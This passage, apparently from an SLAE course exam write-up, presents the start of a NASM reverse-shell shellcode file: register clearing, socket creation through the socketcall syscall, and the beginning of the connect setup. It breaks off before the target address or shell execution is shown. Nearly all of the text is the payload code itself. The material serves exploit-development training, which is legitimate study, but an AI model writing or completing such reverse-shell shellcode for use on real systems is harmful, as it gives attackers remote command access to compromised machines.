 ---------------------------------------------------------------------------

### reverse_shell.nasm ###
<p style="text-align: justify;">That's all, below I present the entire code of the NASM file, which we will then put into the C language wrapper and try to execute.</p>

```nasm
; Filename: reverse_shell.nasm
; Author:   Jakub Heba
; Purpose:  SLAE Course & Exam

global _start			

; Header Files:
; -------------------------------------------------------------------------------------------------------
; |  Linux Syscall description file path: 		|  /usr/include/i386-linux-gnu/asm/unistd_32.h  |
; |  Linux Socketcall numbers:				|  /usr/include/linux/net.h			|
; |  Linux IP Protocols Declarations:			|  /usr/include/netinet/in.h			|
; |  Linux System-specific socket constants and types:	|  /usr/include/i386-linux-gnu/bits/socket.h	|
; -------------------------------------------------------------------------------------------------------

section .text
_start:

cleaning:
	; cleaning all registers for further usage
  xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx

sys_socket:
	; {C code} --> int reverse_socket = socket(AF_INET, SOCK_STREAM, 0);
	
	; syscall definition
	mov al, 102 		; syscall - socketcall
	mov bl, 1		; socketcall type - sys_socket

	; pushing the sys_socket atributes in reverse order (AF_INET, SOCK_STREAM, IPPROTO_IP)
	xor esi, esi		
	push esi		; IPPROTO_IP = 0 (null)
	push 1			; SOCK_STREAM = 1
	push 2			; AF_INET = 2 (PF_INET)

	mov ecx, esp 		; directing the stack pointer to sys_socket() function arguments

	int 128			; syscall execution

	mov edx, eax		; saving the reverse_socket pointer for further usage

sys_connect:
	; {C code} --> struct sockaddr_in address;
        ; {C code} --> address.sin_addr.s_addr = inet_addr(TARGET);
        ; {C code} --> address.sin_port = htons(PORT);
        ; {C code} --> address.sin_family = AF_INET;
	; {C code} --> connect(reverse_socket,(struct sockaddr *)&address, sizeof(address));

	; syscall definition
	mov al, 102		; syscall - socketcall
	mov bl, 3		; socketcall type - sys_connect

```